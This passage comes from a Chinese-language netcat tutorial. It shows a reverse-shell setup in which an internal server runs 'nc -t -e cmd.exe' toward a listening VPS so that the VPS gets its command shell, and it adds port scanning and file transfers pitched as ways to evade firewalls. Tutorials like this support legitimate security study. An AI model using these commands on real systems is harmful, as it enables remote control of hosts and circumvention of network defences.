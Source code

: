反向连接场景：目标设备在内网，防火墙阻止外来流量。绑定服务器的 cmdshell 并反向连接到 vps(192.168.1.4) 的 TCP 端口  

①vps 开启监听

```
nc -lp 5555
```

②服务器内网链接 vps 5555 端口，主动交出自己的 cmdshell

```
nc -t -e cmd.exe 192.168.1.4 5555
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0giaxV7nboLXRfqKyXvDfFdlGGWVJFupmHGwLNEtHcGj6YzMJibO3jtIA/640?wx_fmt=png)  

### **2.2 端口探测**  

NC 可以作为客户端工具对目标进行端口探测：

```
nc -vz -w 2 192.168.1.10 9999
# -v可视化，-z扫描时不发送数据，-w超时几秒，后面跟数字
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0PcT09eUicUbFfChBk90UyPukm686HK6WjUUqqA59vbHc6nRvZuIwecQ/640?wx_fmt=png)使用 NC 工具批量探测服务器连续端口：

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0uXjQPsUlvyTbClmAw9UYFVnmS79hr9XrOHPqSFGQrNz9w9d6NX0x6Q/640?wx_fmt=png)  

### **2.3 文件传输**  

**①**正向传输：服务器先侦听端口，本地向服务器所在机器的该端口发送数据

```
#服务器启动监听，将9995端口接收到的数据都写到test文件里
nc -l -p 9995 > test
```

```
#本地往服务器的9995端口发送数据
nc 192.168.1.4 9995 < 1.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS07gMicd5LQuEzb6qM5PN4Fh7dr1QovBlae1znS5AbkTBblv5gjTbHoZw/640?wx_fmt=png)

**②** 反向传输：本地启动文件发送命令，服务器主动连接下载文件

```
#本地启动文件发送命令，通过9992端口发送文件
nc -l -p 9992 < 1.php
```

```
#服务器执行命令下载192.168.1.10:9992端口文件，并把文件存到当前目录文件夹2.php
nc 192.168.1.10 9992 >2.php
```

vps 本地监听，服务器连接 vps 可以将文件下载到本地。可利用此特性躲避防火墙。
